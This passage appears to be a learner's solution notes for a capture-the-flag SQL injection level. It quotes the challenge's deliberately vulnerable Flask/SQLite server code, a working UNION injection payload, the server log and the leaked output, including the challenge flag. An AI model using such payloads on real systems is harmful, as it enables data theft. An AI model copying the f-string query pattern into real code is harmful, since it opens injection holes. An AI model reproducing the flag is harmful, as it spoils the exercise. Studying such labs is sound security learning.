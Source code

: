 1.  SQLi 3
    If you recall, your command injection exploits typically caused additional commands to be executed. So far, your SQL injections have simply modified the conditions of existing SQL queries. However, similar to how the shell has ways to chain commands (e.g., ;, |, etc), some SQL queries can be chained as well!

    An attacker's ability to chain SQL queries has extremely powerful potential. For example, it allows the attacker to query completely unintended tables or completely unintended fields in tables, and leads to the types of massive data disclosures that you read about on the news.

    This level will require you to figure out how to chain SQL queries in order to leak data. Good luck!
    - my solution
    - /challenge/server:
        ...
        db.execute(f"""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])
        # https://www.sqlite.org/lang_insert.html
        db.execute(f"""INSERT INTO users SELECT "guest" as username, "password" as password""")


        @app.route("/", methods=["GET"])
        def challenge():
            query = flask.request.args.get("query", "%")

            try:

                # https://www.sqlite.org/lang_select.html
                sql = f'SELECT username FROM users WHERE username LIKE "{query}"'
                print(f"DEBUG: {query=}")
                results = "\n".join(user["username"] for user in db.execute(sql).fetchall())
        ...

    QUERY: %" UNION SELECT password FROM users --
    OUTPUT:
        DEBUG: query='%" UNION SELECT password FROM users --'
        127.0.0.1 - - [24/Jun/2025 06:15:17] "GET /?query=%25"+UNION+SELECT+password+FROM+users+-- HTTP/1.1" 200 -

    DISPLAY:
        Query:

        SELECT username FROM users WHERE username LIKE "%" UNION SELECT password FROM users --"


        Results:

        admin
        guest
        password
        pwn.college{gA9xl_xwW8ZeaR0RxYHRVQMF4bH.QXxkzMzwiNxQjMyEzW}


14. SQLi 4
